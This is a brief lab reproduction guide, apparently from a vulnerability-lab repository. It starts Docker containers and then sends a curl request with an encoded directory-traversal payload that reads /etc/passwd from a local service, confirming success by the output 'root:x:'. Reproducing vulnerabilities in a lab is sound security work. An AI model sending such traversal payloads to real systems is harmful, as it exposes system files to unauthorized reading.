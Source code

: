 # Reproduction Guide

## Step 1 – Start the Lab Environment
Start all required containers with Docker Compose:

```bash
docker-compose up -d
```

## Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "127.0.0.1:8081/%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd"
```
If the response body contains `root:x:`, the vulnerability has been successfully reproduced.
